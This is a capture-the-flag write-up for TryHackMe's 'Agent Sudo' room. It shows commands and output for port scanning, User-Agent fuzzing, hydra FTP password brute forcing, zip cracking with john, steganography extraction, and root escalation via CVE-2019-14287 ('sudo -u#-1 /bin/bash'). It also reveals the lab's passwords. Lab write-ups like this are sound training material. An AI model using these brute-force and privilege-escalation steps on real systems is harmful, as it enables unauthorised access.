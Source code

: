 ```bash
# PLATFORM          . THM
# CTF NAME          . Agent Sudo
# DESCRIPTION       . You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/agentsudoctf
```

```bash
sudo nmap -sSVC -T5 10.10.132.55 -p- -oN agentsudo
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef1f5d04d47795066072ecf058f2cc07 (RSA)
|   256 5e02d19ac4e7430662c19e25848ae7ea (ECDSA)
|_  256 2d005cb9fda8c8d880e3924f8b4f18e2 (ED25519)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- If we navigate to the webserver on port `80`, all we get is 

```
Dear agents,  
  
Use your own **codename** as user-agent to access the site.  
  
From,  
Agent R
```

- This makes me think that we neeed to capture the request in burp suite and change the user-agent to a valid value.

- I've captured the request and sent it to Intruder.

- I've created a payload containing all uppercase letters A-Z and started a `sniper` attack.

```
GET / HTTP/1.1
Host: 10.10.132.55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: §<A-Z>§
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

- All requests besides agent `R` and `C` had the same `status code` and `length` so I've considered those obsolete.

- If we modify the User-Agent to `R`, we get a warning. However, this confirms us that we're on the right track and using the right format. 

```
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
```

- If we switch the user-agent to `C`, we see that burp captures another request

```
GET /agent_C_attention.php 
```

- The page is loaded and here's the content

```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```

- We get our username, `chris`, along with some indication that the password might be easy to bruteforce.

- Let's try bruteforcing `ftp` first.

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.132.55 ftp
```

```
[21][ftp] host: 10.10.132.55   login: chris   password: crystal
```

- After logging in to `ftp`, we're able to find some files.

```bash
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```

```To_agentJ.txt
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

- This reveals that here's a steganography challenge and that the password of `Agent J` is hidden inside one of the pictures. 

- Running `steghide --extract -sf` against `cute-alien.jpg` asks for a passphrase, so I've moved to other checks for now.

- I've installed `binwalk` and used `binwalk -e` against both images. 

```bash

binwalk -e cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

- The `.zip` archive seems to be password protected, so we can make use of `john` to try to crack this.

- First, use `zip2john` to extract the hash from the `.zip` file

```bash
/opt/john/run/zip2john 8702.zip > zip_hash.txt
```

- Then, use `john` to crack the password. I've used the classic `rockyou.txt` file.

```bash
/opt/john/run/john -w=/usr/share/wordlists/rockyou.txt zip_hash.txt
```

>**NOTE**: A **COMPILED** version of `john` is needed ; I had the `jumbo` version installed from the official website / git clone of the `run` directory and it was missing some extensions, including `zip2john`.

- I tried `unziping` the arhive using `unzip -P [password] [filename]`

```
   skipping: To_agentR.txt           need PK compat. v5.1 (can do v4.6)
```

- So I managed to get the file using `7z` instead

```
7z x 8702.zip -p[passowrd]
```

```To_agentR.txt
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

- I've tried using `QXJlYTUx` as the passphrase asked when running `steghide --extract -sf cute-alien.jpg`, but it didn't work.

- It looks a bit like `base64` and using `echo "QXJlYTUx" | base64 -d` against the string reveals `Area51` in ASCII - that's the secret.

```
steghide --extract -sf cute-alien.jpg 
Enter passphrase: 
wrote extracted data to "message.txt".
```

```message.txt
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

- So we've got ourselves a pair of credentials: `james:hackerrules!`

- `sudo -l` has an interesting output, but let's focus on getting the 1st flag first.

```bash
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

- First flag is located at `/home/james/user_flag.txt` alongside a `jpg` called `Alien_autospy.jpg`. 

- I've transferred the file to my box using `scp`

```bash
scp james@10.10.132.55:/home/james/Alien_autospy.jpg alien_autopsy.jpg
```

- well. a dead alien. now what? I had no clue what to do with this.

- `steghide --extract -sf` asks for a passphase, but I got no clue and I don't think bruteforcing this is the way to go.

- I've checked the hint and it says that we need to google about it.

- Here we go: The incident is called "Roswell Alien Autopsy". 

- Back to our victim box - we need to escalate privileges.

- The CTF is asking for the CVE number we'll use to exploit, so it is basically a hint that we need to find a vulnerability that can be leveraged in this environment.

```bash
james@agent-sudo:~$ cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=18.04
DISTRIB_CODENAME=bionic
DISTRIB_DESCRIPTION="Ubuntu 18.04.3 LTS"
```

```bash
james@agent-sudo:~$ uname -a
Linux agent-sudo 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

- I think I spent 2 hours looking for 4.1x Kernel exploits. 

- However, I've checked the `sudo version` using `sudo -V` and I was able to find an exploit that can be leveraged on this box.

```bash
sudo -V

Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

- The exploit can be found here:[CVE-2019-14287](https://nvd.nist.gov/vuln/detail/CVE-2019-14287) and it specifies that in order to bypass `(ALL, !root) /bin/bash`, all we need to do is to run `sudo -u#-1 /bin/bash` instead.

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# whoami
root
```

- This exploit works by using `sudo -u` (-u = specify user UID) with a negative value. Sudo doesn't check to see if the UID exists and it returns 0 when given an invalid value, 0 being the root UID and granting us root permissions instead.

- Last flag is in `/root/root.txt`

